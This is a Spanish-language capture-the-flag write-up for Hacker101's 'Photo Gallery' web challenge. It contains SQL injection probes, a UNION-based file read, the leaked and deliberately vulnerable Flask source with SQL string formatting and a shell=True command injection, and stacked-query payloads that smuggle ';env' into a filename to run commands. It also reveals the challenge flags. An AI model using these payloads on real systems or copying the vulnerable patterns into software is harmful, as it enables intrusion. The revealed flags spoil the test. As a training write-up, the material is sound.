


# HackerOne Hacker101 CTF

## Photo Gallery
### Web - Moderate (6/flag)



### Hints

* Flag0
	* Consider how you might build this system yourself. What would the query for fetch look like?
	* Take a few minutes to consider the state of the union
	* This application runs on the uwsgi-nginx-flask-docker image
* Flag1
	* I never trust a kitten I can't see
	* Or a query whose results I can't see, for that matter
* Flag2
	* That method of finding the size of an album seems suspicious
	* Stacked queries rarely work. But when they do, make absolutely sure that you're committed
	* Be aware of your environment


Las imágenes se cargan con la url `/fetch?id=3`


### Inyección SQL

En un primer momento vemos que cuando un ID no existe, se devuelve un error 404, además, la imagen 3 devuelve un error 500.

Si probamos algunas inyecciones SQL, vemos como funcionan.

`/fetch?id=4-2` -> Devuelve imagen 2

`/fetch?id=4 or 1` -> Devuelve imagen 1

Buscamos una inyección booleana con el operador lógico `and`.

`/fetch?id=3 and 1` -> True, Devuelve error 500

`/fetch?id=3 and 0` -> False, Devuelve error 404

Aunque esta inyección se podría explotar con SQLmap, hay varios inconvenientes. Si inyectamos en los ID 1 o 2, al tener que descargar unos 100KB por peticion, se ralentiza considerablemente la extracción de datos. Por otro lado, si inyectamos en el ID 3, SQLmap toma la inyección como un falso positivo, al obtener un error 500 tanto en la inyección True, como en los errores de sintaxis.

En su lugar, utilizamos un script de python para realizar el dump de la base de datos `level5`

```
['level5']
[[['level5', 'albums'], ['level5', 'photos']]]
[['level5', 'albums', ['id', 'title']], ['level5', 'photos', ['id', 'title', 'filename', 'parent']]]
[+] Get DB:level5 TABLE:albums COLUMNS:['id', 'title']
[+] MySQL DUMP - albums
1
18
317C4B697474656E73
['1|Kittens']
[+] Get DB:level5 TABLE:photos COLUMNS:['id', 'title', 'filename', 'parent']
[+] MySQL DUMP - photos
3
78
317C55747465726C792061646F7261626C657C66696C65732F61646F7261626C652E6A70677C31
62
327C50757272666563747C66696C65732F70757272666563742E6A70677C31
156
337C496E76697369626C657C376664343862646266363763306331376462616536643665383334303662326435646461643334663064626664346238303564613133636337343764616533637C31
['1|Utterly adorable|files/adorable.jpg|1', '2|Purrfect|files/purrfect.jpg|1', '3|Invisible|7fd48bdbf67c0c17dbae6d6e83406b2d5ddad34f0dbfd4b805da13cc747dae3c|1']
```

El `filename` de la tercera fila es el flag1, aunque en un principio al no tener el formato exacto ^FLAG^...$FLAG$ podamos pensar de que se trata de un hash o un valor codificado en hexadecimal.


Una vez conocemos la estructura de la base de datos, podemos intentar utilizar la inyección SQL para modificar un `path` y conseguir leer otros archivos. Para ello usaremos `UNION SELECT`.

Lo primero es descubrir la cantidad de elementos que se obtienen en la consulta para hacer la unión con la misma cantidad de elementos, utilizamos `ORDER BY` para determinarlo.

`/fetch?id=4 order by 1` -> True, Error 404

`/fetch?id=4 order by 5` -> False, Error 500

`/fetch?id=4 order by 2` -> False, Error 500

Por lo que la cantidad de elementos es 1, la consulta sería algo similar a esto `SELECT filename FROM photos WHERE id=$id`.

Probamos a obtener la imagen del primer gato `/fetch?id=4 union select 'files/adorable.jpg'`.

Comprobamos que funciona, el siguiente paso es descargar el código fuente de la aplicación que se encuentra en `main.py`.

```python

from flask import Flask, abort, redirect, request, Response
import base64, json, MySQLdb, os, re, subprocess

app = Flask(__name__)

home = '''
<!doctype html>
<html>
	<head>
		<title>Magical Image Gallery</title>
	</head>
	<body>
		<h1>Magical Image Gallery</h1>
$ALBUMS$
	</body>
</html>
'''

viewAlbum = '''
<!doctype html>
<html>
	<head>
		<title>$TITLE$ -- Magical Image Gallery</title>
	</head>
	<body>
		<h1>$TITLE$</h1>
$GALLERY$
	</body>
</html>
'''

def getDb():
	return MySQLdb.connect(host="localhost", user="root", password="", db="level5")

def sanitize(data):
	return data.replace('&', '&amp;').replace('<', '&lt;').replace('>', '&gt;').replace('"', '&quot;')

@app.route('/')
def index():
	cur = getDb().cursor()
	cur.execute('SELECT id, title FROM albums')
	albums = list(cur.fetchall())

	rep = ''
	for id, title in albums:
		rep += '<h2>%s</h2>\n' % sanitize(title)
		rep += '<div>'
		cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))
		fns = []
		for pid, ptitle, pfn in cur.fetchall():
			rep += '<div><br>%s</div>' % (pid, sanitize(ptitle))
			fns.append(pfn)
		rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
		rep += '</div>\n'

	return home.replace('$ALBUMS$', rep)

@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)

	# It's dangerous to go alone, take this:
	# ^FLAG^a4482735c6a1bd68b3a6edec1c0ca3c5333187f5eb82f95501f57ff141b5f39d$FLAG$

	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=80)
```

En este código se encuentra la flag0.

### RCE

Utilizamos stacked queries para insertar datos en las tablas `albums` y `photos` para conseugir una ejecución de comandos.
Como solo se muestra la ultima linea del comando ejecutado, las eliminamos con el comando `tr`.

La flag se encuentra en una variable de entorno como se nos indica en las pistas.

```sql
/fetch?id=4;INSERT INTO `albums` (`id`, `title`) VALUES (2, 'Patatas');commit;
/fetch?id=4;INSERT INTO `photos` (`id`, `title`, `filename`, `parent`) VALUES (NULL, 'Patatas',';ls -la|tr "\n" " "', 2);commit;
/fetch?id=4;DELETE FROM `photos` WHERE parent=2;commit;
/fetch?id=4;INSERT INTO `photos` (`id`, `title`, `filename`, `parent`) VALUES (NULL, 'Patatas',';env|tr "\n" " "', 2);commit;
```

